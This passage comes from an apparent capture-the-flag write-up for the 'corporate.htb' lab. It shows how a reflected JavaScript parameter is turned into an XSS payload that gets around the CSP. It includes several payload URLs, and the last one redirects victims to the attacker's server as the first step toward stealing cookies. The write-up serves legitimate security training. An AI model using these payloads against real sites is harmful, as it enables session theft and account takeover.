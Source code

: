 They all had a value (`v=3082529412012`) passed in.

I looked through the files, and found one of them (`assets/js/analytics.min.js`) had the value reflected in the source code.
![](Pasted%20image%2020251009063833.png)

Since I could control the value, I might be able to inject JS code in it before being executed by the browser.

I made a request to `http://corporate.htb` and intercepted the response in Burp Suite. Then I  changed the parameter value to `alert(1)` for the `assets/js/analytics.min.js`.
![](Pasted%20image%2020251009064621.png)

Then I released the response and resumed the network flow. When the page was loaded, a popup appeared, confirming the code injection!
![](Pasted%20image%2020251009065014.png)
### XSS
#### Building & Debugging
Now that I had confirmed `assets/js/analytics.min.js` was vulnerable to code injection, and was allowed by the CSP, I could weaponize it to deliver an XSS payload combined with the HTML-injection vulnerability on the 404 page.

I started with a basic payload.
```html
http://corporate.htb/<script src="http://corporate.htb/assets/js/analytics.min.js?v=alert(1)"></script>
```

The payload didn't work. However, this time the error was different, which was due to a function not defined. 
![](Pasted%20image%2020251009070515.png)

I searched through the JS files, and found it was defined in `vendor/js/analytics.min.js`.
![](Pasted%20image%2020251009071126.png)

I needed to load this script before the payload, which can be solved by prepending it in a script tag. 
```html
http://corporate.htb/<script src="http://corporate.htb/vendor/analytics.min.js"></script><script src="http://corporate.htb/assets/js/analytics.min.js?v=alert(1)"></script>
```

The payload then worked.
![](Pasted%20image%2020251009071342.png)

Now with a fully functional XSS, I started to further weaponize it to steal user cookies.

The first step was to let the payload access my server as part of data exfiltration.
```html
http://corporate.htb/<script src="http://corporate.htb/vendor/analytics.min.js"></script><script src="http://corporate.htb/assets/js/analytics.min.js?v=window.location="http://10.10.xxx.xxx""></script>
```
